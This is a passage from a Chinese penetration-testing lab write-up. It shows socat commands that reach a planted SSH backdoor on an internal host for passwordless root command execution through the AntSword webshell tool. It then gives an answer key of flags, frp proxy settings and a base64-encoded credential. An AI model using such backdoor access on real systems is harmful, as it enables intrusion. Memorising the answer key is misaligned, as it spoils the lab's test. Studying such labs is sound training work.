

可无需密码获得目标主机`root`用户权限：

```
echo "ls" | socat STDIO TCP4:172.26.0.30:22,sourceport=19526
echo "whoami" | socat STDIO TCP4:172.26.0.30:22,sourceport=19526
echo "ip addr" | socat STDIO TCP4:172.26.0.30:22,sourceport=19526
```

这里因为中国蚁剑的模拟终端会自动的把进程放到后台，因此，无法直接在终端中与我们留下的后门进行命令交互，这里采用管道`|`的方法，把要执行的命令重定向到与后门的连接中，并返回执行后的结果：

注意：因为每执行一次命令需要连接我们的后门，然后执行命令，返回结果，因此在执行下个命令时，需要稍微等待几秒时间，等待上次连接关闭，然后才能继续执行命令，否则会出现如下图所示错误：`Address already in use`。



当然，如果我们是在前台执行的话，是可以得到一个交互式shell的，如下图：

注意，本环境无法直接如下图一样得到交互式shell



如果使用其他可得到交互式模拟终端的Webshell管理工具，是完全可以实现以上操作的。

```
1、请输入在步骤一中找到的flag{xxx}，只填写flag{}内的内容：
df3b03ac2298b01bba7a3bac74fd7c9f
2、请输入在步骤二中找到的flag{xxx}，只填写flag{}内的内容：
aa46468cee325f33f6e4a660d0b72011
3、请输入在步骤三中找到的flag{xxx}，只填写flag{}内的内容：
e2a82c99b19d8368257198ecfaaa510f
4、请输入在步骤四中找到的flag{xxx}，只填写flag{}内的内容：
ce395be7238ceb5bb8dd76fb7e220bec
5、在实验步骤五中，frp启用socks代理必须要添加的一行配置选项是：
plugin = socks5
6、在实验步骤六中，使用nmap扫描内网存活端口后显示的 SERVICE 内容为：
afs3-callback
7、请输入在步骤七中找到的flag{xxx}，只填写flag{}内的内容：
b3d3422ba4cdb3de076f521f52d70e84
8、请输入在步骤八中获得的加密字符串：
c2ltYWRtaW46ZGV2QHNpbWFkbWlu
9、在实验步骤九中，建立二层内网socks代理隧道时，tomcat 机器需要启动什么服务：
C：frpc服务和frps服务
10、请输入在步骤十中找到的flag{xxx}，只填写flag{}内的内容：
b7928c5332a5c8a9cdda4a7f18c87fca
11、请输入在步骤十一中找到的flag{xxx}，只填写flag{}内的内容：
fcc9f2e35685a3b074c53d0e619c1d26
12、在实验步骤十二中，在连接添加的SSH后门时所连接的sourceport为？
19526
```
